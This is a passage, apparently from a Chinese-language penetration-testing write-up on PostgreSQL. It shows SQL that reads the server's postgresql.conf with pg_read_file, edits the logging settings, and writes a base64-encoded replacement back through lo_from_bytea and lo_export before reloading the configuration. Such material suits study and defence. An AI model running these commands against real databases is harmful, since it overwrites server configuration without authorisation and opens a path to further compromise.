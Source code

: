 查看内容

```plain
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

将配置文件中的 log\_directory 配置修改

```plain
log_destination = 'csvlog'
log_directory = '/tmp/f0x'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
log_rotation_size = 100MB
log_rotation_age = 1d
log_min_messages = INFO
logging_collector = on
```

转为 base64 格式

```plain
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base64.txt
```

```plain
-- 将修改后的配置文件加载到 largeobject 中
select lo_from_bytea(10001,decode('base64 的内容，这里略','base64'));

-- 通过 lo_export 覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

[![40.png](assets/1698894509-7fc89a755370cfa49e0ba6421f91e5eb.png)](https://storage.tttang.com/media/attachment/2022/04/13/095b0408-07ac-4273-96e4-088c46748e01.png)

[![41.png](assets/1698894509-350710cfc75d982c7fa69a4c6ffdf2bd.png)](https://storage.tttang.com/media/attachment/2022/04/13/776fdc1e-f96f-41fe-b829-bcb26a8ec4aa.png)
